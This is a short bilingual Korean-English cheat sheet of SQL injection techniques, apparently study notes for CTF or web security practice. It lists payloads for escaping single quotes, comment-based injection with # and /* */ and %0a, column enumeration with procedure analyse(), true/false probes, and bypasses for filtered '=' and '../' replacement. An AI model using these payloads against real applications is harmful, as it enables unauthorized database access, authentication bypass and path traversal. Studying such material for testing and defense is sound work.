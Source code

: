 Single Quoter Filtering (%27)

```php
Use Double Quote in Single Quote
if '\' not Filtering
-> select TEST from TABLE where id='\' and pw=' or 1#
parameter : id=\&pw=%20or%201%23
```

<br />

Comment Injection

```php
'#'의 주석 범위는 1 line이다. 1 line을 나누는 기준은 %0a로 나눈다.
-> select test1 from TABLE where id='abc'# and pw='%0a or id='admin'%23
'/* */'
-> select test1 from TABLE where id='abc'/* and pw=''*/ or id='admin'%23
```

<br />

Table and Column

```mysql
select test1 from test where id='admin' and pw='1234' procedure analyse();
```

-> Use with limit 2,1

<br />

SQL Injection Attack Success

```
Use '(Single Quoter) Error
-> ' and '1'='1 , ' and '1'='2
앞은 정상적 출력되고 뒤는 출력이 안나면 성공
' or '1'='1 -> 정상 출력 되면 성공
Number Column
-> if idx=23001 == idx=23002-1 이렇게 넣었을때 정상 출력 되면 성공
Comment
-> #(%23), -- (--%20), %0a
```

<br />

Filtering

```
=이 필터링 되었을 때
1' or 2>1 -- 이렇게 조건 참 만들어서 인젝션할 수 있다.

../를 replace해주면 .././로 "../"로 만들 수 있다.
```

<br />

Unpacking js

```
console.log()
```

<br />

*Reference by ar9ang3*